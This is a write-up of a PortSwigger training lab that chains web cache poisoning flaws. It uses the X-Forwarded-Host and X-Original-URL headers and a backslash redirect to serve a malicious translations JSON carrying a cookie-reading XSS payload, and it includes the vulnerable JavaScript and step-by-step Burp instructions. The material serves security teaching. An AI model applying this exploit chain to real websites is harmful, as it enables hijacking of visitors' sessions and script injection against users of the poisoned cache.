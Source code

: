 # Combining web cache poisoning vulnerabilities

## Description

[This lab](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-combining-vulnerabilities) is susceptible to web cache poisoning, but only if you construct a complex exploit chain. A user visits the home page roughly once a minute and their language is set to English. 

## Reproduction

1. With Burp running, load the website's home page.
2. Use [Param Miner](https://portswigger.net/web-security/web-cache-poisoning#param-miner) to identify that the `X-Forwarded-Host` and `X-Original-URL` headers are supported.

![Web cache poisoning](/_static/images/cache17.png)

![Web cache poisoning](/_static/images/cache18.png)

3. In Burp Repeater, experiment with the `X-Forwarded-Host` header. It can be used to import an arbitrary JSON file instead of the `translations.json` file, which contains translations of UI texts.

![Web cache poisoning](/_static/images/cache19.png)

4. The website is vulnerable to DOM-XSS due to the way the `initTranslations()` function handles data from the JSON file for all languages except English:

![Web cache poisoning](/_static/images/cache20.png)

```text
function initTranslations(jsonUrl)
{
    const lang = document.cookie.split(';')
        .map(c => c.trim().split('='))
        .filter(p => p[0] === 'lang')
        .map(p => p[1])
        .find(() => true);

    const translate = (dict, el) => {
        for (const k in dict) {
            if (el.innerHTML === k) {
                el.innerHTML = dict[k];
            } else {
                el.childNodes.forEach(el_ => translate(dict, el_));
            }
        }
    }

    fetch(jsonUrl)
        .then(r => r.json())
        .then(j => {
            const select = document.getElementById('lang-select');
            if (select) {
                for (const code in j) {
                    const name = j[code].name;
                    const el = document.createElement("option");
                    el.setAttribute("value", code);
                    el.innerText = name;
                    select.appendChild(el);
                    if (code === lang) {
                        select.selectedIndex = select.childElementCount - 1;
                    }
                }
            }

            lang in j && lang.toLowerCase() !== 'en' && j[lang].translations && translate(j[lang].translations, document.getElementsByClassName('maincontainer')[0]);
        });
}
```

5. Go to the exploit server and edit the file name to match the path used by the vulnerable website: `/resources/json/translations.json`. 
6. In the head, add the header `Access-Control-Allow-Origin: *` to enable CORS.
7. In the body, add malicious JSON that matches the structure used by the real translation file. Replace the value of one of the translations with a suitable XSS payload, for example:

```text
{
    "en": {
        "name": "English"
    },
    "es": {
        "name": "español",
        "translations": {
            "Return to list": "Volver a la lista",
            "View details": "</a><img src=1 onerror='alert(document.cookie)' />",
            "Description:": "Descripción"
        }
    }
}
```

![Web cache poisoning](/_static/images/cache22.png)

8. **Store** the exploit.
9. In Burp, find a `GET` request for `/?localized=1` that includes the `lang` cookie for Spanish:
    `lang=es`

![Web cache poisoning](/_static/images/cache23.png)

![Web cache poisoning](/_static/images/cache24.png)

10. Send the request to Burp Repeater. Add a cache buster like `?cb=1234` and the `X-Forwarded-Host` header with the exploit server ID: `X-Forwarded-Host: exploit-server-id.exploit-server.net`. 
11. Send and confirm that the exploit server is reflected in the response.

![Web cache poisoning](/_static/images/cache25.png)

12. To simulate the victim, load the URL in the browser and confirm that the `alert()` fires.
13. The cache for the Spanish page is poisoned, but the target user's language is set to English. It is not possible to exploit users with their language set to English, so a way to forcibly change language is needed.
14. In Burp, go to **Proxy -> HTTP history** and study the requests and responses generated. When changing the language on the page to anything other than English, this triggers a redirect, for example, to `/setlang/es`. The user's selected language is set server side using the `lang=es` cookie, and the home page is reloaded with the parameter `?localized=1`.
15. Send the `GET` request for the home page to Burp Repeater and add a cache buster.
16. The `X-Original-URL` can be used to change the path of the request to explicitly set `/setlang/es`. This response cannot be cached because it contains the `Set-Cookie` header.
17. The home page sometimes uses backslashes as a folder separator. The server normalises these to forward slashes using a redirect. As a result, `X-Original-URL: /setlang\es` triggers a `302` response that redirects to `/setlang/es`. This `302` response is cacheable and can be used to force other users to the Spanish version of the home page.
18. Combine these two exploits. First, poison the `GET /?localized=1` page using the `X-Forwarded-Host` header to import the malicious JSON file from the exploit server.
19. And while the cache is still poisoned, poison the `GET /` page using `X-Original-URL: /setlang\es` to force all users to the Spanish page.
20. To simulate the victim, load the English page in the browser and make sure that you are redirected and that the `alert()` fires.
21. Replay both requests in sequence to keep the cache poisoned on both pages until the victim visits the site and the lab is solved.

## PoC

<iframe title="Combining web cache poisoning vulnerabilities" src="https://tube.spdns.org/videos/embed/f2c423a8-c7d1-4414-9a81-ef48e8c59310" allowfullscreen="" sandbox="allow-same-origin allow-scripts allow-popups" width="560" height="315" frameborder="0"></iframe>

----

## Exploitability

An attacker will need to poison the cache with multiple malicious responses simultaneously and coordinate this with the victim's browsing behaviour.  
